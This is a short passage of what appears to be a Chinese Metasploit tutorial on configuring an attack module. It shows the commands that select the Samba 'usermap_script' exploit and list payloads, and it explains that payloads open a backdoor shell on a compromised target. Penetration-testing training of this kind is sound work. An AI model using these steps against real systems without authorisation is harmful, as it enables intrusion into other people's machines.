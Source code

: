![此处输入图片的描述](../imgs/wm_46.png)


### 9.3 配置攻击模块

为了能够用好攻击模块，我们需要进行一些相应的配置。

首先，告诉系统我们将要使用的攻击模块：

```
msf > use exploit/multi/samba/usermap_script
```

查看攻击负荷（payload）列表，在这里 payload 用来在目标被攻陷后创建后门 Shell：

```
msf > show payloads
```
